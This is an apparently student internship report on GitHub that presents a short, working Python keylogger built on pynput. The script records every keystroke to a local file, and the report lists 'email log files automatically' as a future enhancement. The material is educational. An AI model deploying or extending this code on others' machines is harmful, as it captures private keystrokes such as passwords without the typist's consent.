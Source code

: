 # PRODIGY_CS_04
# Keylogger Project using Python (For Educational Purposes Only)
# 1. Introduction
 In today's digital world, understanding how systems track input is crucial. This project focuses on building a basic
 keylogger using Python. The program records keystrokes and logs them to a text file. It is designed strictly for ethical
 learning and research purposes.
 # 2. Objective- Create a Python-based program that logs keystrokes.- Log both character and special keys.- Save the keystrokes in a readable format to a local file.
# 3. Tools & Technologies Used
 | Tool/Library       | Purpose                                |
 |--------------------|----------------------------------------|
 | Python             | Programming language                   |
 | pynput             | Capturing keyboard events              |
 | Visual Studio Code | Code editor used for development       |
# 4. Methodology- Used pynput's Listener to detect and respond to keyboard presses.- The listener writes each key to a file (`keylog.txt`).- It handles exceptions to record special keys such as ENTER, SHIFT etc.
# 5. Implementation
 ```python
 from pynput import keyboard
 log_file = "keylog.txt"
 def on_press(key):
    try:
        with open(log_file, "a") as f:
            f.write(f"{key.char}")
    except AttributeError:
        with open(log_file, "a") as f:
            f.write(f"[{key}]")
 with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
 ```
# 6. Output
 Keylogger Project Report- All keystrokes are recorded into keylog.txt.- Regular keys are logged as-is (e.g., a, b, 1).- Special keys appear like [Key.enter], [Key.space].
# 7. Results
 | Action   | Output File |
 |----------|-------------|
 | Logging  | keylog.txt  |
# 8. Conclusion
 This project introduces the core logic behind a keylogger and how to log input for user-based events. It emphasizes
 ethical responsibility and forms a strong base for understanding event-based programming.
# 9. Future Enhancements- Add timestamps to logs.- Secure logs using encryption.- Email log files automatically.- Build a GUI-based keylogger manager.
# 10. Acknowledgement
 I would like to thank Prodigy InfoTech for the opportunity to explore input logging through this internship project. It has
 helped me build practical understanding of Python and user-event tracking.
